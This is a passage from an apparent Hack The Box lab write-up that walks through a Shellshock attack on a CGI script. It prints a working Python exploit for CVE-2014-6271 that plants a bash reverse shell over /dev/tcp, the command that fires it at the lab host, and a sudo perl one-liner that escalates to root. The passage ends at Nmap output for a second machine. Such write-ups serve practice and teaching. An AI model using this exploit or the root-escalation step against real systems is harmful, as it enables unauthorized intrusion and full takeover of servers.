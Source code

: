 Here the site is basically empty and doing a simple Gobuster we get an intresting folder called CGI-BIN which can possibly contain some .sh, .bin, .pl scripts which can then be used by us to exploit a vulnerability called shellshock. And luckily we find a user.sh file which we can use to exploit.

Here is an exploit we can use :

```python
#
#CVE-2014-6271 cgi-bin reverse shell
#

import httplib,urllib,sys

if (len(sys.argv)<4):
        print "Usage: %s <host> <vulnerable CGI> <attackhost/IP>" % sys.argv[0]
        print "Example: %s localhost /cgi-bin/test.cgi 10.0.0.1/8080" % sys.argv[0]
        exit(0)

conn = httplib.HTTPConnection(sys.argv[1])
reverse_shell="() { ignored;};/bin/bash -i >& /dev/tcp/%s 0>&1" % sys.argv[3]

headers = {"Content-type": "application/x-www-form-urlencoded",
        "test":reverse_shell }
conn.request("GET",sys.argv[2],headers=headers)
res = conn.getresponse()
print res.status, res.reason
data = res.read()
print data%   
```

Here we can see basically what its trying to do and running the command "() { ignored;};/bin/bash -i >& /dev/tcp/%s 0>&1" and now lets use this script like so :

```bash
python shellpoc.py 10.10.10.56 /cgi-bin/user.sh 10.10.14.24/4242
```

and then we can listen to use netcat to listen for our shell back. Now doing a simple sudo -l we can see we can run perl as root without any password so lets utilise that to our advantage and for this we can refer to a great resource called https://gtfobins.github.io/

and then using the command :
```
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

we will get our root shell and we can cat out the root flag.


# Linux : Sense : 10.10.10.60 : Easy

Nmap Results : 

```
Nmap scan report for 10.10.10.60
Host is up (0.052s latency).

PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

```
